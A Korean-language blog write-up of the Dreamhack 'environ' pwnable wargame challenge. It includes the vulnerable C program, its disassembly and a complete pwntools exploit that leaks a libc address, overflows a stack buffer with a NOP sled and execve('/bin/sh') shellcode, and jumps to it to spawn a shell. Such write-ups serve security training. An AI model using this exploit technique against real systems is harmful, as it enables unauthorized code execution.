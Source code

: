 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN environ"
excerpt: "드림핵 포너블 environ 문제풀이"
tags: [Dreamhack, pwnable, wargame, writeup]
math: true
date: 2022-12-20 17:30
---
```


오랜만에 풀어보는 시스템 해킹이다.

environ을 간단히 설명해보면 프로그램이 동작할 떄 시스템의 환경변수를 참조해야할 경우가 있다. 이때 사용하는 것이 environ 포인터인데 이는 시스템의 환경변수를 가리키며 로더의 초기화 함수에 의해 초기화 된다.

이번 문제의 코드를 살펴보면 다음과 같다
```c
int main()
{
    char buf[16];
    size_t size;
    long value;
    void (*jump)();

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
    scanf("%ld", &size);

    printf("Data: ");
    read(0, buf, size);

    printf("*jmp=");
    scanf("%ld", &value);

    jump = *(long *)value;
    jump();

    return 0;
}
```

stdout의 주소값을 출력해주고 입력받은 사이즈 만큼 buf에 쓰고 value의 주소를 정해줘 해당 주소로 점프해 어셈블리 코드를 실행하게 된다. 

바이너리에 걸린 보안 기술을 보면 다음과 같다
```python
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
stack canary가 적용되어 있지만 이를 체크하기 전에 쉘 코드가 실행되어 크게 신경쓸 부분은 아닌것 같다.

우선 해당 바이너리를 익스하기 위해 stdout주소에서 stdout offset의 차를 구해 libc base주소를 구한다. 이후 해당 libc base주소에 environ offset을 더해 바이너리의 environ주소를 구한다. 다음으로 buf를 오버플로우 시켜 environ 영역에 쉘 코드를 삽입하고 해당 주소로 점프하면 쉘을 구할 수 있다.

main함수의 어셈블리를 살펴보자
```c
0x000000000040089a <+0>:     push   rbp
   0x000000000040089b <+1>:     mov    rbp,rsp
   0x000000000040089e <+4>:     sub    rsp,0x40
   0x00000000004008a2 <+8>:     mov    rax,QWORD PTR fs:0x28
   0x00000000004008ab <+17>:    mov    QWORD PTR [rbp-0x8],rax
   0x00000000004008af <+21>:    xor    eax,eax
   0x00000000004008b1 <+23>:    mov    eax,0x0
   0x00000000004008b6 <+28>:    call   0x40083e <initialize>
   0x00000000004008bb <+33>:    mov    rax,QWORD PTR [rip+0x2007be]        # 0x601080 <stdout@@GLIBC_2.2.5>
   0x00000000004008c2 <+40>:    mov    rsi,rax
   0x00000000004008c5 <+43>:    mov    edi,0x400a0d
   0x00000000004008ca <+48>:    mov    eax,0x0
   0x00000000004008cf <+53>:    call   0x4006a0 <printf@plt>
   0x00000000004008d4 <+58>:    mov    edi,0x400a19
   0x00000000004008d9 <+63>:    mov    eax,0x0
   0x00000000004008de <+68>:    call   0x4006a0 <printf@plt>
   0x00000000004008e3 <+73>:    lea    rax,[rbp-0x38]
   0x00000000004008e7 <+77>:    mov    rsi,rax
   0x00000000004008ea <+80>:    mov    edi,0x400a20
   0x00000000004008ef <+85>:    mov    eax,0x0
   0x00000000004008f4 <+90>:    call   0x400700 <__isoc99_scanf@plt>
   0x00000000004008f9 <+95>:    mov    edi,0x400a24
   0x00000000004008fe <+100>:   mov    eax,0x0
   0x0000000000400903 <+105>:   call   0x4006a0 <printf@plt>
   0x0000000000400908 <+110>:   mov    rdx,QWORD PTR [rbp-0x38]
   0x000000000040090c <+114>:   lea    rax,[rbp-0x20]
   0x0000000000400910 <+118>:   mov    rsi,rax
   0x0000000000400913 <+121>:   mov    edi,0x0
   0x0000000000400918 <+126>:   call   0x4006c0 <read@plt>
   0x000000000040091d <+131>:   mov    edi,0x400a2b
   0x0000000000400922 <+136>:   mov    eax,0x0
   0x0000000000400927 <+141>:   call   0x4006a0 <printf@plt>
   0x000000000040092c <+146>:   lea    rax,[rbp-0x30]
   0x0000000000400930 <+150>:   mov    rsi,rax
   0x0000000000400933 <+153>:   mov    edi,0x400a20
   0x0000000000400938 <+158>:   mov    eax,0x0
   0x000000000040093d <+163>:   call   0x400700 <__isoc99_scanf@plt>
   0x0000000000400942 <+168>:   mov    rax,QWORD PTR [rbp-0x30]
   0x0000000000400946 <+172>:   mov    rax,QWORD PTR [rax]
   0x0000000000400949 <+175>:   mov    QWORD PTR [rbp-0x28],rax
   0x000000000040094d <+179>:   mov    rdx,QWORD PTR [rbp-0x28]
   0x0000000000400951 <+183>:   mov    eax,0x0
   0x0000000000400956 <+188>:   call   rdx
   0x0000000000400958 <+190>:   mov    eax,0x0
   0x000000000040095d <+195>:   mov    rcx,QWORD PTR [rbp-0x8]
   0x0000000000400961 <+199>:   xor    rcx,QWORD PTR fs:0x28
   0x000000000040096a <+208>:   je     0x400971 <main+215>
   0x000000000040096c <+210>:   call   0x400690 <__stack_chk_fail@plt>
   0x0000000000400971 <+215>:   leave  
   0x0000000000400972 <+216>:   ret 
```

stdout을 통해 libc base 주소를 구하는 것은 어렵지 않다.
pwntools을 이용하면 된다. 출력된 주소 - libc.symbols["_IO_2_1_stdout_"]를 이용하면 쉽게 구할 수 있다. 가장 중요한 것은 buf의 위치와 environ 위치의 offset을 구해야 하는데 gdb 상에서 살펴보면 read 함수에서 받아 저장할 위치는 rbp-0x20이라고 되어있다.

```c
0x0000000000400908 <+110>:   mov    rdx,QWORD PTR [rbp-0x38]
```

이부분의 주소값과 environ의 주소값의 차를 구하고 쉘코드의 길이를 더한 만큼 오버플로우 시켜야 한다.

그러면 buf와 environ의 offset 만큼의 nop코드로 채운 후 쉘코드를 삽입하고 이로 건너뛰는 시나리오가 될 것이다.

```python
from pwn import *
context.update(arch='amd64', os='linux')

c = remote("host3.dreamhack.games", 17150);
libc = ELF("./libc.so.6")
#c = process("./environ")
#libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")

shell = asm(shellcraft.execve("/bin/sh"))

c.recvuntil(b"stdout: ")
stdout = int(str(c.recvline()[:-1]).replace("b", "").replace("'", ''), 16)
print(f"stdout : {hex(stdout)}")

stdoutOffset = libc.symbols["_IO_2_1_stdout_"]
libcBase = stdout-stdoutOffset
print(f"libc base : {hex(libcBase)}")
print(f"libc offset : {hex(stdoutOffset)}")

envAddr = libcBase+libc.symbols["environ"]
print(f"environ addr : {hex(envAddr)}")
bufToenvOffset = 0x148
print(f"Buffer to environ addr offset : {hex(bufToenvOffset)}")

c.recvuntil(b"Size: ")
c.sendline(str(bufToenvOffset+len(shell)))

c.recvuntil(b"Data: ")
c.sendline(b"\x90"*bufToenvOffset+shell)

c.recvuntil(b"*jmp=")
c.sendline(str(envAddr))

c.interactive()
```

위 코드를 통해 익스플로잇이 가능하다. 